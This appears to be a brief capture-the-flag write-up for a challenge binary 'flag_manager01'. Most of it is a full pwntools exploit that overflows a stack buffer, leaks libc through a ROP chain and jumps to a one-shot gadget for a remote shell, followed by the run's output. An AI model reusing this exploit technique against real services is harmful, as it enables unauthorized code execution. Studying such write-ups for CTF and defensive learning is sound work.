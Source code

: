 Buffer Overflow and Format String Bugs Occur.

So, I can catch `RIP`.

Then, do `ROP` ( bypass `DEP`) can get shell.

### Exploit

`oneshot gadget`

```python
from pwn import *

#context.log_level = "debug"

e = ELF("./flag_manager01")
libc = e.libc

r = remote("89.38.208.144",11115)
#r = process("./flag_manager01")

pr = 0x4008a3

payload = ""
payload += "A" * 0x58
payload += p64(pr)
payload += p64(e.got["puts"])
payload += p64(e.plt["puts"])

payload += p64(e.symbols["main"])

r.sendlineafter("name: ",payload)
r.sendlineafter("please: ","1234")

libc_base = u64(r.recvuntil("\x7f")[-6:] + "\x00\x00") - libc.symbols["puts"]
oneshot = libc_base + 0x10a38c
log.info("libc_base : " + hex(libc_base))

payload = ""
payload += "A" * 0x58
payload += p64(oneshot)

r.sendlineafter("name: ",payload)
r.sendlineafter("please: ","1234")

r.interactive()
```

```bash
juntae@ubuntu:~/ctf/timisoara/flag$ c
juntae@ubuntu:~/ctf/timisoara/flag$ p ex.py 
[*] '/home/juntae/ctf/timisoara/flag/flag_manager01'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 89.38.208.144 on port 11115: Done
[*] libc_base : 0x7ff5c611e000
[*] Switching to interactive mode
```
